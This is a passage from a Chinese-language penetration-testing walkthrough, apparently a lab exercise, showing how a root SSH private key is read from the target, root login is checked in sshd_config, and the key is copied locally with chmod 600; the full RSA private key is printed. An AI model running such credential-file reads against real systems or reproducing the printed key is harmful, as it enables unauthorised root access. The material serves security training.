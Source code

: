 ```php
head -n 1 /.ssh/root_key 
```

![image-20210630151929543](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5dbe0c506ff27209875241d401be853aecb3160d.png)

这是一个 SSH 私钥。文件的名称和所有者告诉我们密钥属于root用户：

### 注意

在我们尝试使用此密钥之前，让我们确认甚至允许通过 SSH 登录根：

```php
grep PermitRootLogin /etc/ssh/sshd_config 
```

![image-20210630152045099](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-557ea2cb02b10ca97f97e1b0168f47d6b1462416.png)

### 5.将密钥复制到本地机器，并给予其正确的权限

![image-20210630152738111](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2f298594c9165631ab6b34f20ec148cd771be46e.png)

```php
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3IIf6Wczcdm38MZ9+QADSYq9FfKfwj0mJaUteyJHWHZ3/GNm
gLTH3Fov2Ss8QuGfvvD4CQ1f4N0PqnaJ2WJrKSP8QyxJ7YtRTk0JoTSGWTeUpExl
p4oSmTxYnO0LDcsezwNhBZn0kljtGu9p+dmmKbk40W4SWlTvU1LcEHRr6RgWMgQo
OHhxUFddFtYrknS4GiL5TJH6bt57xoIECnRc/8suZyWzgRzbo+TvDewK3ZhBN7HD
eV9G5JrjnVrDqSjhysUANmUTjUCTSsofUwlum+pU/dl9YCkXJRp7Hgy/QkFKpFET
Z36Z0g1JtQkwWxUD/iFj+iapkLuMaVT5dCq9kQIDAQABAoIBAQDDWdSDppYA6uz2
NiMsEULYSD0z0HqQTjQZbbhZOgkS6gFqa3VH2OCm6o8xSghdCB3Jvxk+i8bBI5bZ
YaLGH1boX6UArZ/g/mfNgpphYnMTXxYkaDo2ry/C6Z9nhukgEy78HvY5TCdL79Q+
5JNyccuvcxRPFcDUniJYIzQqr7laCgNU2R1lL87Qai6B6gJpyB9cP68rA02244el
WUXcZTk68p9dk2Q3tk3r/oYHf2LTkgPShXBEwP1VkF/2FFPvwi1JCCMUGS27avN7
VDFru8hDPCCmE3j4N9Sw6X/sSDR9ESg4+iNTsD2ziwGDYnizzY2e1+75zLyYZ4N7
6JoPCYFxAoGBAPi0ALpmNz17iFClfIqDrunUy8JT4aFxl0kQ5y9rKeFwNu50nTIW
1X+343539fKIcuPB0JY9ZkO9d4tp8M1Slebv/p4ITdKf43yTjClbd/FpyG2QNy3K
824ihKlQVDC9eYezWWs2pqZk/AqO2IHSlzL4v0T0GyzOsKJH6NGTvYhrAoGBAOL6
Wg07OXE08XsLJE+ujVPH4DQMqRz/G1vwztPkSmeqZ8/qsLW2bINLhndZdd1FaPzc
U7LXiuDNcl5u+Pihbv73rPNZOsixkklb5t3Jg1OcvvYcL6hMRwLL4iqG8YDBmlK1
Rg1CjY1csnqTOMJUVEHy0ofroEMLf/0uVRP3VsDzAoGBAIKFJSSt5Cu2GxIH51Zi
SXeaH906XF132aeU4V83ZGFVnN6EAMN6zE0c2p1So5bHGVSCMM/IJVVDp+tYi/GV
d+oc5YlWXlE9bAvC+3nw8P+XPoKRfwPfUOXp46lf6O8zYQZgj3r+0XLd6JA561Im
jQdJGEg9u81GI9jm2D60xHFFAoGAPFatRcMuvAeFAl6t4njWnSUPVwbelhTDIyfa
871GglRskHslSskaA7U6I9QmXxIqnL29ild+VdCHzM7XZNEVfrY8xdw8okmCR/ok
X2VIghuzMB3CFY1hez7T+tYwsTfGXKJP4wqEMsYntCoa9p4QYA+7I+LhkbEm7xk4
CLzB1T0CgYB2Ijb2DpcWlxjX08JRVi8+R7T2Fhh4L5FuykcDeZm1OvYeCML32EfN
Whp/Mr5B5GDmMHBRtKaiLS8/NRAokiibsCmMzQegmfipo+35DNTW66DDq47RFgR4
LnM9yXzn+CbIJGeJk5XUFQuLSv0f6uiaWNi7t9UNyayRmwejI6phSw==
-----END RSA PRIVATE KEY-----
```

```php
chmod 600 root_key 赋予权限
```
